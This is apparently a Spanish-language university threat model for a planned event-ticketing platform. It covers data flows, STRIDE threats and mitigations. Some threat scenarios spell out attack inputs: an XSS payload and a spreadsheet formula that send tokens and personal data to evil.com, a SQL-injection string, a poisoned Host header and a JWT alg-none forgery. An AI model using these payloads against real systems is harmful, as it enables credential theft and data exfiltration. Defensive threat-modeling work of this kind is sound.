



| Integrante | Carné |
|---|---|
| Estuardo Saban | 26004193 |
| [Nombre integrante 2] | [carné] |
Curso: [Nombre del curso]
Catedrático: [Nombre del catedrático]
Noviembre 2026
Repositorio: github.com/Esaban17/eventosu-threat-model
EventosU está en fase de diseño: no hay código. El modelo razona únicamente sobre la descripción del caso, siguiendo las cuatro preguntas del Threat Modeling Manifesto: ¿en qué trabajamos? (DFD), ¿qué puede salir mal? (STRIDE y árbol de ataque), ¿qué vamos a hacer al respecto? (respuesta, mitigación y trazabilidad a ASVS) y ¿hicimos un buen trabajo? (controles de verificación en el pipeline).
| ID | Activo | Valor para el negocio |
|---|---|---|
| A1 | Datos personales de inscritos (nombre, correo, carné, teléfono) | Una filtración expone a la universidad a reclamos de los estudiantes y daño reputacional; es el activo más sensible que guarda el sistema. |
| A2 | Estado de pago de cada inscripción | Es lo que convierte una inscripción en ingreso. Si alguien lo altera, la universidad pierde dinero directamente. |
| A3 | Entradas QR | Controlan el acceso físico y el aforo; un QR falso equivale a una entrada regalada y a sobrecupo en el lugar. |
| A4 | Credenciales y sesiones (contraseñas, JWT, cuentas institucionales) | Con ellas se suplanta a cualquier usuario, incluidos organizadores y administradores. |
| A5 | Roles y permisos (Administrador, Organizador, Puerta) | Quien controla los roles controla toda la plataforma: eventos, listas de inscritos y reportes. |
| A6 | Archivos CSV exportados | Concentran la PII de todo un evento en un solo archivo fácil de copiar y reenviar. |
| A7 | Secretos de integración (secreto del webhook, llave de firma JWT, API key de correo, credenciales de BD) | Con ellos se falsifican pagos, sesiones o correos con apariencia oficial. |
| A8 | Disponibilidad de la validación en puerta | Si falla el día del evento hay colas, ingreso sin control y daño a la imagen del evento. |
| A9 | Catálogo y afiches de eventos | Es la cara pública de la universidad; una alteración (defacement o contenido malicioso) afecta la reputación. |
El caso no define estos puntos; los declaramos y los usamos de forma consistente en el DFD, las amenazas y las mitigaciones.
| ID | Supuesto |
|---|---|
| S1 | El sitio React guarda el JWT de acceso en localStorage (el caso solo dice “en el navegador”). El token dura 60 minutos y no hay refresh token. |
| S2 | La API emite su propio JWT firmado (HS256 con una llave guardada como variable de entorno) tanto para login local como para login con Entra ID. El rol del usuario viaja como claim dentro del JWT. |
| S3 | El login institucional usa OAuth 2.0 / OIDC con el flujo authorization code: el navegador se redirige a Entra ID y la API canjea el código por tokens. |
| S4 | La pasarela usa una página de pago alojada por ella (hosted checkout). Firma cada webhook con HMAC-SHA256 en un encabezado; que la API verifique esa firma es una decisión de diseño que aún no está tomada. |
| S5 | El QR de la entrada codifica el identificador de la inscripción. El caso no define su formato, así que analizamos el peor caso: un ID numérico secuencial. |
| S6 | Los logs de la API se escriben a stdout y los recoge el servicio de logs del proveedor cloud, con 30 días de retención. Los administradores de la nube pueden leerlos y borrarlos. |
| S7 | Afiches y CSV se guardan en el mismo bucket. Los afiches deben ser públicos para el catálogo y el caso no dice cómo se protegen los CSV. |
| S8 | La app de Puerta inicia sesión contra la misma API con una cuenta de rol “Puerta” y necesita conexión a internet para validar. |
| S9 | API, PostgreSQL y bucket están en la misma cuenta del proveedor cloud. La base de datos no tiene IP pública y solo la API se conecta a ella. |
| S10 | El correo se envía llamando la API REST del proveedor con una API key. Los enlaces del correo apuntan al dominio de EventosU. |
| S11 | Todo el tráfico externo usa TLS 1.2 o superior: el CDN y el balanceador de la API terminan TLS. |
| S12 | El catálogo de eventos lo puede ver cualquiera sin iniciar sesión; el resto de funciones requiere sesión. |
Los diagramas están en model/eventosu.json (Threat Dragon 2.x, validado contra el esquema oficial threat-dragon-v2.schema.json). Los elementos en rojo tienen amenazas abiertas, igual que en Threat Dragon.


| ID | Límite | Por qué es un límite |
|---|---|---|
| B1 | Límite 1 · Borde CDN | El CDN es infraestructura de un tercero que entrega el código que se ejecuta en el navegador; si alguien lo altera, cambia lo que corre el cliente. |
| B2 | Límite 2 · Navegador del usuario (no confiable) | El navegador está bajo control total del usuario: todo lo que corre o se guarda ahí (JS, localStorage) se puede leer y manipular. |
| B3 | Límite 3 · Nube EventosU – aplicación | La API es el único punto donde se pueden aplicar autenticación, autorización y reglas de negocio de forma confiable. |
| B4 | Límite 4 · Servicios de terceros | Pasarela, Entra ID y correo son de otras organizaciones: confiamos en sus mensajes solo si se autentican (firma, tokens). |
| B5 | Límite 5 · Nube EventosU – datos | Aquí viven los datos persistentes (PII, pagos, CSV, logs); solo la API debe cruzar este límite, con credenciales de mínimo privilegio. |
| B6 | Límite 6 · Dispositivo móvil de puerta | El teléfono del personal de puerta puede perderse o ser manipulado; la app es un cliente más, no es confiable. |
| ID | Origen → Destino | Dato | Protocolo | Cruza límite |
|---|---|---|---|---|
| F01 | Visitante → Sitio web React (SPA + /admin) | Consulta del catálogo (HTTPS, HTML/JSON) | HTTPS | No |
| F02 | Estudiante o público → Sitio web React (SPA + /admin) | Registro, login e inscripción (HTTPS, formulario) | HTTPS | No |
| F03 | Organizador → Sitio web React (SPA + /admin) | Datos del evento y afiche (HTTPS, multipart) | HTTPS | No |
| F04 | Administrador → Sitio web React (SPA + /admin) | Gestión de usuarios y roles (HTTPS, formulario) | HTTPS | No |
| F05 | CDN (archivos estáticos React) → Sitio web React (SPA + /admin) | Bundle React (HTTPS, JS/HTML/CSS) | HTTPS | Sí |
| F06 | Sitio web React (SPA + /admin) → API Node.js (contenedor) | Peticiones autenticadas (HTTPS, JSON + JWT Bearer) | HTTPS | Sí |
| F07 | API Node.js (contenedor) → Sitio web React (SPA + /admin) | Respuestas y JWT emitido (HTTPS, JSON) | HTTPS | Sí |
| F08 | Sitio web React (SPA + /admin) ↔ Microsoft Entra ID | Login institucional (HTTPS, OAuth 2.0 code + PKCE) | HTTPS | Sí |
| F09 | API Node.js (contenedor) ↔ Microsoft Entra ID | Canje de código por tokens (HTTPS, OAuth 2.0 token endpoint) | HTTPS | Sí |
| F10 | Sitio web React (SPA + /admin) → Pasarela de pagos | Redirección a pago (HTTPS, ID de orden + monto) | HTTPS | Sí |
| F11 | Pasarela de pagos → API Node.js (contenedor) | Webhook de pago (HTTPS, JSON firmado HMAC) | HTTPS | Sí |
| F12 | API Node.js (contenedor) → Servicio de correo | Solicitud de envío de QR / reset (HTTPS, REST JSON + API key) | HTTPS | Sí |
| F13 | Servicio de correo → Estudiante o público | Correo con entrada QR / enlace de reset (SMTP sobre TLS) | SMTP/TLS | Sí |
| F14 | API Node.js (contenedor) ↔ PostgreSQL (usuarios, inscripciones, pagos) | Consultas SQL (TLS, protocolo PostgreSQL) | TLS | Sí |
| F15 | API Node.js (contenedor) → Bucket de objetos (afiches y CSV) | Afiches y CSV generados (HTTPS, SDK de almacenamiento) | HTTPS | Sí |
| F16 | Bucket de objetos (afiches y CSV) → Sitio web React (SPA + /admin) | Descarga de afiche / CSV (HTTPS, URL prefirmada) | HTTPS | Sí |
| F17 | Personal de Puerta → App de Puerta (móvil) | Escaneo del QR (cámara, imagen QR) | Cámara | No |
| F18 | App de Puerta (móvil) ↔ API Node.js (contenedor) | Validación del QR: válido / ya usado (HTTPS, JSON token + JWT) | HTTPS | Sí |
| F19 | API Node.js (contenedor) → Logs / bitácora (servicio cloud, S6) | Eventos de auditoría (HTTPS, JSON) | HTTPS | Sí |
| ID | Elemento | STRIDE | Escenario (quién, cómo, qué obtiene) | Imp. | Prob. | Riesgo | Respuesta | Mitigación (verificable) | Estado |
|---|---|---|---|---|---|---|---|---|---|
| AM-01 | F11 · Webhook de pago cruza límite | S – Suplantación | Webhook de pago falsificado. Un estudiante inscrito ve en las herramientas de desarrollador que el webhook se recibe en /api/webhooks/pago (la ruta es estándar y aparece en la documentación del proveedor). Con curl envía un POST con {"inscripcion_id": 1042, "estado": "aprobado"}. Si la API no verifica la firma, marca la inscripción como pagada y le envía un QR válido sin que haya pagado. | Alto | Alta | Crítico | Mitigar | Verificar la firma HMAC-SHA256 del encabezado de la pasarela con el secreto guardado en el gestor de secretos, comparando en tiempo constante. Rechazar con 401 si la firma no es válida o si el timestamp tiene más de 5 minutos. Antes de marcar la inscripción como pagada, consultar a la API de la pasarela el estado de la transacción (server-to-server). | Abierta – requisito de diseño pendiente |
| AM-02 | F18 · Validación del QR: válido / ya usado cruza límite | S – Suplantación | QR de entrada predecible (ID secuencial). Un asistente que compró su entrada lee su QR con una app y descubre que contiene “INS-1042”. Con un generador de QR gratuito crea INS-1043…INS-1100 y se presenta en la puerta con uno que todavía no se ha usado. La API responde “válido” y entra sin pagar; el dueño legítimo llega después y le aparece “ya usado”. | Alto | Alta | Crítico | Mitigar | El QR debe contener un token aleatorio de 128 bits generado con CSPRNG (crypto.randomBytes), o un token firmado (Ed25519) con inscripción, evento y expiración. La API valida que el token exista, pertenezca al evento que se escanea y esté pagado. No exponer IDs secuenciales. | Abierta – requisito de diseño pendiente |
| AM-03 | F08 · Login institucional cruza límite | S – Suplantación | Robo del código de autorización OAuth (login institucional). Un atacante envía por WhatsApp a un compañero un enlace de “login institucional” con un redirect_uri manipulado (p. ej., https://eventosu.app.evil.com/callback). Si el registro de la aplicación en Entra ID acepta comodines, o si la API no valida el parámetro state, el código de autorización llega al atacante, que lo canjea y entra como la víctima. | Alto | Baja | Medio | Mitigar | Usar authorization code + PKCE (S256), registrar en Entra ID solo URIs de redirección exactos (sin comodines), generar y validar state y nonce por sesión, y validar en el id_token iss, aud = client_id y exp. | Abierta – requisito de diseño pendiente |
| AM-04 | F09 · Canje de código por tokens cruza límite | S – Suplantación | Suplantación por claim de correo mutable (nOAuth). La API configura Entra ID con el endpoint “common” e identifica al usuario por el claim email. Un atacante crea un tenant gratuito de Microsoft, pone en su usuario el correo de un organizador real (ese campo es editable en tenants ajenos), inicia sesión y la API lo asocia a la cuenta existente del organizador. Obtiene así la lista de inscritos y la exportación CSV. | Alto | Media | Alto | Mitigar | Aceptar solo tokens del tenant de la universidad (validar tid) y usar el endpoint del tenant, no “common”. Identificar al usuario por oid + tid (claims inmutables) y nunca por email ni por preferred_username. | Abierta – requisito de diseño pendiente |
| AM-05 | F12 · Solicitud de envío de QR / reset cruza límite | S – Suplantación | Envenenamiento del enlace de restablecimiento de contraseña. Un atacante pide el restablecimiento de contraseña de la víctima enviando el encabezado Host: evil.com. La API arma el enlace con ese Host y el proveedor de correo envía a la víctima https://evil.com/reset?token=…. Si la víctima hace clic, el atacante recibe el token y cambia la contraseña. | Medio | Media | Medio | Mitigar | Construir los enlaces con un dominio fijo tomado de la configuración, nunca del encabezado Host. Usar tokens de 128 bits de un solo uso que expiren en 15 minutos y guardarlos como hash en la BD. Dar siempre una respuesta genérica (“si la cuenta existe, enviamos un correo”) y notificar al usuario cuando su contraseña cambie. | Abierta – requisito de diseño pendiente |
| AM-06 | API Node.js (contenedor) | S – Suplantación | Credential stuffing contra el login local. Un atacante toma una lista de correos y contraseñas filtrados en otros sitios y la prueba con un script contra /api/auth/login. Entra a las cuentas de quienes reutilizan contraseña, ve sus entradas QR y sus datos personales, y si alguna es de organizador, descarga listas de inscritos. | Medio | Alta | Alto | Mitigar | Limitar los intentos por IP y por cuenta (p. ej., 5 por minuto con backoff exponencial) y mostrar CAPTCHA tras 3 fallos. Al registrarse o cambiar la contraseña, verificarla contra la lista de contraseñas filtradas (HIBP con k-anonymity). Obligar a organizadores y administradores a usar la cuenta institucional con MFA. | Abierta – requisito de diseño pendiente |
| AM-07 | App de Puerta (móvil) | S – Suplantación | Reventa o uso compartido de un QR legítimo. Un estudiante que pagó su entrada envía una captura del QR a un amigo, o la revende en un grupo de Facebook. Quien la presente primero en la puerta entra; el segundo recibe “ya usado”. | Bajo | Alta | Medio | Aceptar | Riesgo aceptado. El control de un solo uso (AM-08) garantiza que una entrada pagada equivale a un solo ingreso. Exigir carné en la puerta para todos los eventos causaría colas desproporcionadas en eventos gratuitos o baratos. Responsable: Coordinación de Eventos de la universidad (dueña del producto). Se revisará si algún evento de alta demanda presenta reventa abusiva. | Aceptada (Coordinación de Eventos) |
| AM-08 | API Node.js (contenedor) | T – Manipulación | Condición de carrera en “ya usado” del QR. Dos personas con la captura del mismo QR se presentan al mismo tiempo en dos puertas distintas del concierto. La API hace un SELECT, ve el QR sin usar y responde “válido” a ambas puertas antes de que se ejecute el UPDATE. Entran dos personas con una sola entrada. | Medio | Media | Medio | Mitigar | Marcar el uso con una operación atómica condicional: UPDATE entradas SET usado_en = now(), usado_por = $puerta WHERE token = $1 AND usado_en IS NULL RETURNING id. Si la consulta afecta 0 filas, la respuesta es “ya usado”. Agregar una prueba de concurrencia con 50 validaciones simultáneas. | Abierta – requisito de diseño pendiente |
| AM-09 | F10 · Redirección a pago cruza límite | T – Manipulación | Monto del pago manipulado en la redirección a la pasarela. Un estudiante intercepta con Burp Suite la redirección a la pasarela y cambia monto=350.00 por monto=1.00 en el congreso. Paga Q1, la pasarela envía un webhook legítimo y firmado con estado “aprobado”, y la API marca la inscripción como pagada sin comparar el monto con el precio del evento. | Alto | Alta | Crítico | Mitigar | La API crea la orden de pago directamente con la pasarela (server-to-server), con el monto tomado de la BD, y el navegador solo recibe el ID de orden. Al recibir el webhook, comparar monto, moneda e ID de orden contra la inscripción; si no coinciden, no marcar como pagada, registrar el evento y alertar. | Abierta – requisito de diseño pendiente |
| AM-10 | F16 · Descarga de afiche / CSV cruza límite | T – Manipulación | Inyección de fórmulas en el CSV exportado. Un atacante se registra con el nombre =HYPERLINK("https://evil.com/?d="&B2&C2;"Ver más"). Cuando el organizador abre el CSV en Excel y hace clic en la celda, se envían a evil.com el correo y el carné de la fila; otras fórmulas (DDE) pueden incluso ejecutar comandos en la computadora del organizador. | Medio | Media | Medio | Mitigar | Al generar el CSV, anteponer un apóstrofo a las celdas que empiecen con =, +, -, @, tabulador o retorno de carro, y escapar según RFC 4180. Validar el nombre al registrarse (solo letras, espacios y signos de puntuación comunes). Agregar una prueba unitaria con estos payloads. | Abierta – requisito de diseño pendiente |
| AM-11 | F11 · Webhook de pago cruza límite | R – Repudio | Pagos sin evidencia ni idempotencia en el webhook. La pasarela reintenta un webhook por un timeout y la API lo procesa dos veces: genera dos QR y dos correos. Semanas después, un estudiante dice “pagué y nunca recibí mi entrada” e inicia un contracargo. No hay registro del webhook recibido, de su firma ni del resultado, así que la universidad no puede probar qué pasó. | Medio | Media | Medio | Mitigar | Guardar cada webhook en una tabla webhook_eventos con el ID de evento de la pasarela como UNIQUE (para idempotencia), el hash del cuerpo, si la firma fue válida, el resultado y un timestamp UTC. Reflejar estos registros en la bitácora de solo-anexado de AM-12. | Abierta – requisito de diseño pendiente |
| AM-12 | Logs / bitácora (servicio cloud, S6) | R – Repudio | Acciones administrativas sin bitácora confiable. Un administrador, o alguien que comprometió su cuenta, le da rol de Organizador a un tercero y borra un evento. Los logs solo guardan peticiones HTTP sin identificar al usuario, y los administradores de la nube pueden borrarlos (S6). Cuando se investiga, nadie puede probar quién lo hizo y el administrador lo niega. | Medio | Media | Medio | Mitigar | Registrar en una bitácora de auditoría cada acción privilegiada: oid del actor, acción, objeto, valor anterior y nuevo, IP y hora UTC. Enviarla a un almacenamiento de solo-anexado (retención bloqueada / WORM) en otra cuenta, donde los administradores de la app no puedan borrar. | Abierta – requisito de diseño pendiente |
| AM-13 | App de Puerta (móvil) | R – Repudio | Validaciones de puerta sin atribución. Un miembro del personal de puerta deja pasar a amigos validando QRs de otros asistentes. Cuando el dueño real llega y le aparece “ya usado”, no hay registro de qué usuario, dispositivo y puerta hizo esa validación, porque el equipo comparte una sola cuenta de Puerta. Nadie puede ser señalado. | Medio | Media | Medio | Mitigar | Usar cuentas nominales por cada persona de puerta, asignadas a un evento y con vigencia limitada a ese día. Cada validación registra el usuario, el ID del dispositivo, la puerta, la hora y el resultado. Generar un reporte de validaciones por usuario para el organizador. | Abierta – requisito de diseño pendiente |
| AM-14 | API Node.js (contenedor) | I – Divulgación | IDOR en la exportación CSV de inscritos. Una organizadora del taller de fotografía (evento 57) exporta su lista y ve la URL /api/eventos/57/inscritos.csv. Cambia 57 por 58, que es el congreso de otra facultad, y la API le devuelve el nombre, correo, carné y teléfono de 800 personas, porque solo verifica que tenga rol Organizador y no que el evento sea suyo. | Alto | Alta | Crítico | Mitigar | Aplicar autorización a nivel de objeto en la API: antes de exportar, verificar que evento.organizador_id = sub del JWT o que el usuario sea Administrador; si no, responder 404. Usar UUID en lugar de IDs secuenciales como defensa en profundidad. Registrar cada exportación en la bitácora. | Abierta – requisito de diseño pendiente |
| AM-15 | Bucket de objetos (afiches y CSV) | I – Divulgación | CSV expuesto en el bucket (ACL pública o URL predecible). Para que los afiches sean visibles, se configura el bucket como público (S7). Los CSV quedan en el mismo bucket en /exports/evento-58.csv. Alguien que ve un enlace reenviado en un chat, o que adivina el patrón, descarga la lista completa sin iniciar sesión. | Alto | Media | Alto | Mitigar | Separar los afiches públicos y los CSV privados en buckets distintos. El bucket de exportaciones bloquea todo acceso público, los CSV se nombran con UUID y solo se descargan con una URL prefirmada de 5 minutos generada después de la autorización de AM-14. Una regla de ciclo de vida borra los CSV a las 24 horas. Todo se declara en IaC y se verifica con Checkov. | Abierta – requisito de diseño pendiente |
| AM-16 | Sitio web React (SPA + /admin) | I – Divulgación | XSS almacenado roba el JWT de localStorage. Un organizador malicioso, o con la cuenta comprometida, escribe en la descripción del evento <img src=x onerror="fetch('https://evil.com/?t='+localStorage.token)">. Si React la renderiza con dangerouslySetInnerHTML para soportar formato, cada usuario autenticado que abre el evento, incluidos los administradores, envía su JWT al atacante (S1). | Alto | Media | Alto | Mitigar | No usar dangerouslySetInnerHTML; si hace falta texto enriquecido, sanitizar con DOMPurify en la API y en el cliente. Aplicar una CSP estricta (script-src 'self', sin 'unsafe-inline') y mover la sesión a una cookie HttpOnly; Secure; SameSite=Strict para que el token no sea legible desde JavaScript. | Abierta – requisito de diseño pendiente |
| AM-17 | F14 · Consultas SQL cruza límite | I – Divulgación | Inyección SQL en la búsqueda del catálogo. Un visitante anónimo prueba la búsqueda pública /api/eventos?q=' OR 1=1--. Si la API arma la consulta concatenando strings, el visitante usa sqlmap para extraer la tabla usuarios (correos y hashes de contraseña) e inscripciones. | Alto | Baja | Medio | Mitigar | Usar siempre consultas parametrizadas u ORM (prohibir la concatenación con una regla de SAST). La API se conecta con un usuario de BD de mínimo privilegio, sin permisos DDL ni de superusuario, y la BD no tiene IP pública (S9). | Abierta – requisito de diseño pendiente |
| AM-18 | Logs / bitácora (servicio cloud, S6) | I – Divulgación | Tokens y PII en los logs. Para depurar, la API registra el cuerpo y los encabezados completos de cada petición. En los logs del proveedor (S6) quedan el encabezado Authorization con JWTs vigentes, las contraseñas del registro y los payloads del webhook. Un practicante de soporte con acceso de lectura copia un JWT de administrador y lo reutiliza. | Medio | Media | Medio | Mitigar | Usar un logger estructurado (pino) con una lista de redacción para authorization, password, token, telefono y carne. Restringir la lectura de logs por rol y revisar el inventario de logs antes de cada release. | Abierta – requisito de diseño pendiente |
| AM-19 | F18 · Validación del QR: válido / ya usado cruza límite | D – Denegación de servicio | Inundación del endpoint de validación el día del evento. El día del concierto, alguien con acceso a una botnet barata envía miles de peticiones por segundo a /api/qr/validar y /api/auth/login. El único contenedor de la API se satura, la app de Puerta recibe timeouts y se forman colas de cientos de personas en la entrada. | Alto | Baja | Medio | Transferir | Transferir el volumétrico al servicio anti-DDoS/WAF del proveedor cloud (con contrato), con reglas de rate limiting por IP y por dispositivo. Configurar autoescalado del contenedor. Para contingencia, la app descarga antes del evento una lista firmada de tokens válidos y puede validar sin conexión, sincronizando después. | Abierta – requisito de diseño pendiente |
| AM-20 | Bucket de objetos (afiches y CSV) | D – Denegación de servicio | Agotamiento de almacenamiento y memoria con afiches. Una cuenta de organizador comprometida sube en bucle archivos de 2 GB como “afiche”, o una imagen PNG de 50 000 × 50 000 px (bomba de píxeles). Al generar la miniatura, la API se queda sin memoria y se reinicia, y el bucket genera costos inesperados. | Medio | Baja | Bajo | Mitigar | Limitar los afiches a 5 MB y a JPEG, PNG o WebP, validando por magic bytes. La subida va directo al bucket con una URL prefirmada con content-length-range. Al procesar la imagen, rechazar más de 25 megapíxeles y aplicar una cuota de archivos por organizador. | Abierta – requisito de diseño pendiente |
| AM-21 | F12 · Solicitud de envío de QR / reset cruza límite | D – Denegación de servicio | Abuso del envío de correos que bloquea la cuenta del proveedor. Un atacante automatiza miles de solicitudes de “olvidé mi contraseña” hacia direcciones inválidas o de terceros. El proveedor de correo detecta rebotes y quejas de spam y suspende la cuenta de EventosU, así que los QR de un evento que se paga esa semana dejan de enviarse. | Medio | Media | Medio | Mitigar | Limitar las solicitudes de restablecimiento por IP y por correo (3 por hora) con CAPTCHA, fijar una cuota diaria de envíos y alertar cuando suba la tasa de rebotes. El QR también se puede descargar desde “Mis entradas” en el sitio, para no depender solo del correo. | Abierta – requisito de diseño pendiente |
| AM-22 | F06 · Peticiones autenticadas cruza límite | E – Elevación de privilegios | Panel /admin protegido solo en el cliente. Un estudiante abre el bundle JS público del sitio (servido por el CDN) y encuentra las rutas PATCH /api/usuarios/:id/rol y GET /api/reportes. React solo oculta el menú /admin, pero la API no verifica el rol. Con su propio JWT llama PATCH /api/usuarios/<su-id>/rol {"rol":"admin"} y se vuelve administrador. | Alto | Alta | Crítico | Mitigar | Aplicar autorización por función en la API: un middleware requireRole('admin') en todo el router /api/admin y en cada endpoint privilegiado, con política de denegar por defecto. Al cambiar el rol, tomarlo de la BD (no del JWT) e invalidar las sesiones previas. Servir el panel desde un subdominio separado y exigir MFA. | Abierta – requisito de diseño pendiente |
| AM-23 | API Node.js (contenedor) | E – Elevación de privilegios | JWT manipulado (alg none o llave débil). Un estudiante copia su JWT de localStorage, cambia el claim role a "admin" y lo reenvía con alg "none". Si eso falla, le pasa su token a hashcat para encontrar la llave HS256; si es débil (p. ej., “eventosu2026”), firma su propio token de administrador. | Alto | Baja | Medio | Mitigar | Al verificar, fijar los algoritmos permitidos (algorithms: ['EdDSA'] o ['RS256']) y validar iss, aud y exp. Guardar la llave privada en el gestor de secretos y rotarla cada 90 días. Leer el rol desde la BD en operaciones sensibles. Usar SCA para detectar versiones vulnerables de jsonwebtoken o jose. | Abierta – requisito de diseño pendiente |
| AM-24 | F18 · Validación del QR: válido / ya usado cruza límite | E – Elevación de privilegios | Cualquier usuario puede invocar la validación de QR. Un estudiante instala la app de Puerta (está en la tienda) y, con un proxy, ve que /api/qr/validar solo exige un JWT cualquiera. Con su cuenta de estudiante recorre tokens o IDs, averigua cuáles entradas son válidas y “quema” entradas de otros marcándolas como usadas antes del evento. | Alto | Media | Alto | Mitigar | El endpoint exige rol Puerta y que el usuario esté asignado al evento que se valida, dentro de la ventana horaria del evento. Aplicar rate limiting por usuario. La respuesta solo devuelve válido, ya usado o inválido y el nombre del asistente, sin más datos. | Abierta – requisito de diseño pendiente |
| AM-25 | F16 · Descarga de afiche / CSV cruza límite | E – Elevación de privilegios | Afiche SVG con script ejecutado en el origen del sitio. Un organizador sube afiche.svg con <script> que lee localStorage y crea un usuario administrador vía la API. El bucket sirve el archivo desde el mismo dominio que el sitio (cdn.eventosu…/afiches) con Content-Type image/svg+xml. Cuando un administrador abre el afiche en una pestaña nueva, el script corre con su sesión. | Alto | Baja | Medio | Eliminar | Eliminar el vector: no aceptar SVG (solo JPEG, PNG o WebP verificados por magic bytes) y recodificar las imágenes en el servidor. Servir el contenido subido por usuarios desde un dominio separado sin sesión (usercontent), con X-Content-Type-Options: nosniff y Content-Disposition. | Abierta – requisito de diseño pendiente |
| Flujo obligatorio | Amenazas |
|---|---|
| Webhook de pago (F11) | AM-01 webhook falsificado (S), AM-11 sin evidencia ni idempotencia (R); relacionada: AM-09 monto manipulado (T, F10) |
| Validación del QR (F18 / API / App) | AM-02 QR predecible (S), AM-08 carrera en “ya usado” (T), AM-24 validación sin rol Puerta (E), AM-19 DoS en puerta (D), AM-13 validaciones sin atribución (R), AM-07 reventa de QR (S, aceptada) |
| Exportación del CSV (API / Bucket / F16) | AM-14 IDOR en exportación (I), AM-15 CSV expuesto en bucket (I), AM-10 inyección de fórmulas (T) |
En Threat Dragon cada amenaza tiene el mismo ID en el título, el escenario como descripción, la respuesta entre corchetes al inicio de la mitigación y el riesgo calculado en el campo score. La amenaza aceptada (AM-07) está marcada como N/A, porque Threat Dragon no tiene un estado “Aceptada”.

Camino: Raíz → 2. Obtener un QR válido → 2.1 Fabricar QR con ID secuencial (Y) → comprar una entrada barata + generar los siguientes IDs + presentarse antes que el dueño.
| Rama | Costo para el atacante | Habilidad | Dependencias / limitaciones |
|---|---|---|---|
| 2.1 QR secuencial (AM-02) | ≈Q25 una sola vez | Ninguna (app lectora y generador de QR gratuitos) | Sirve para cualquier evento, se repite sin límite y no depende de nadie |
| 1.1 Webhook forjado (AM-01) | Q0 | Baja: curl y leer documentación | Solo funciona si la API no verifica la firma; requiere conocer el formato del payload del proveedor |
